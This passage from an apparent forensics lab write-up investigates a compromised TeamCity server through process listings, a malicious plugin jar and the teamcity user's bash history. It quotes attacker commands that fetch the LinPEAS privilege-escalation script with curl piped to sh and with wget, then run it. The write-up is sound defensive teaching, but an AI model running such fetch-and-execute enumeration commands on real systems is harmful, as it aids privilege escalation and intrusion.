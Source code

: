 ```shell
ps
```

will be saved at `C:\Labs\...\hostname\live_response\process\ps.txt`.  Through this, we can see the output of commands run at collection time. 

The file `lsof_-nPL.txt` lists open files. The flags `-nPL` prevent conversion of some user IDs in the output. 

![figure006]({{site.baseurl}}/assets/screenshots/figure006.png)
**Figure 6**: `lsof_-nPL.txt` showing the `.jar` file.

We can learn of the process relationship with the help of `pstree -p -n.txt` and `top -b -n1.txt`:

```
systemd (1)
└── sh (1394) (teamcity)
    └── sh (1401) (teamcity)
        └── java (1693) (exited at time of UAC collection)
            └── java (2199) (teamcity)

```
**Figure 7**: The process relationship of the java process of interest running on **`TTK-DEV-01`**

Through this, we can see that the java process is running as the `teamcity` user. 

The file `deQch48D.jar` unpacks to run at the following directory: `/home/teamcity/.BuildServer/system/caches/plugins.unpacked/deQch48D/server/deQch48D.jar`. 

We know that the java server attempts to perform RCE through a bash prompt, so my next stop is the *`.bash_history`* file for the `teamcity` user which provides evidence of execution. 

```shell
...
sudo su
cd /tmp/
clear
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -O lp.sh
ls -l
chmod +x lp.sh 
./lp.sh 
...
```
**Figure 8**: an excerpt of the `.bash_history` file for user `teamcity` 

The user `teamcity` has attempted to use `wget` to retrieve a [privilege escalation and enumeration tool "PEASS-ng"](https://github.com/peass-ng/PEASS-ng) which can be used to enumerate known attack paths on a device. The attacker can then consider the various attack paths presented to them. It looks like the `wget` command was the one that output the script to a file, `lp.sh`. 

Notice the `.bash_history` file does not come with any timestamps. `bash` is able to record timestamps in Ubuntu but those have to be turned on before they are recorded. Some programs on Linux leave additional artefacts of execution. `wget` records files it retrieves in the [hidden `.wget-hists` file](https://artefacts.help/linux_wget_hsts_history.html). 
